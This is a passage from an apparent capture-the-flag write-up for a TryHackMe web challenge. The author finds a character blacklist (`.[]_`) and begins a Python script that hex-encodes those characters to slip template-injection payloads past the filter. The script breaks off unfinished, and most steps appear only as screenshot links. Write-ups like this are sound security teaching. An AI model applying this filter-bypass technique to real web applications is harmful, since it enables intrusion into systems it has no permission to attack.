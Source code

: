 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/VulnNet-dotpy/images/Pasted%20image%2020221227212440.png)

**Hmm... How about `request` object?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/VulnNet-dotpy/images/Pasted%20image%2020221227212724.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/VulnNet-dotpy/images/Pasted%20image%2020221227212734.png)

**Wait, are you blocking the `_`?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/VulnNet-dotpy/images/Pasted%20image%2020221227212825.png)

Umm...

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/VulnNet-dotpy/images/Pasted%20image%2020221227214124.png)

**So the web application is blocking `.[]_`.**

**Also, when I try to figure out how to bypass the filter, it displayed an error:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/VulnNet-dotpy/images/Pasted%20image%2020221227214514.png)

Looks like when the request path has `._[]`, it renders the 403 template?

**Hmm... Let's hex encode all blacklisted characteres**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/VulnNet-dotpy/images/Pasted%20image%2020221227215551.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/VulnNet-dotpy/images/Pasted%20image%2020221227215609.png)

Why you turn the `\` to `/`??

**To automate things, I'll write a python script:**
```py
#!/usr/bin/env python3
import requests
from bs4 import BeautifulSoup

def main():
    url = 'http://vulnnet.com:8080/'
    cookie = {'session': '.eJwljktqA0EMBe_S6yzUH_18mUEtqbEJJDBjr0Lu7g5ZvoLi1U851pnXvdye5ys_yvGIcitLu6FgGylOTjoitHNg5xqQbTBT0xyKUrWpByyaGNKJLbhqF_bOlqYZ64-7iaQjwlYARBliVtI1DKAKNCNOyD5m430EVHbI68rzv6bu6de5juf3Z35tIBHDu21f5pid564c4ksJjdJ8gRN6cPl9AzxzPqU.Y6ueZw.TlRTKTnukPYI-dSyqsD4r9Fgo3I'}

    dot = b'.'
    underscore = b'_'
    openBracket = b'['
    closeBracket = b']'

    encodedDot = '\\x' + dot.hex()
    encodedUnderscore = '\\x' + underscore.hex()
    encodedOpenBracket = '\\x' + openBracket.hex()
    encodedCloseBracket = '\\x' + closeBracket.hex()

    payload = """"""
    finalPayload = ''

    for character in payload:
        if character == '.':
            finalPayload += character.replace('.', encodedDot)
        elif character == '_':
            finalPayload += character.replace('_', encodedUnderscore)
        elif character == '[':
            finalPayload += character.replace('[', encodedOpenBracket)
        elif character == ']':
            finalPayload += character.replace(']', encodedCloseBracket)
```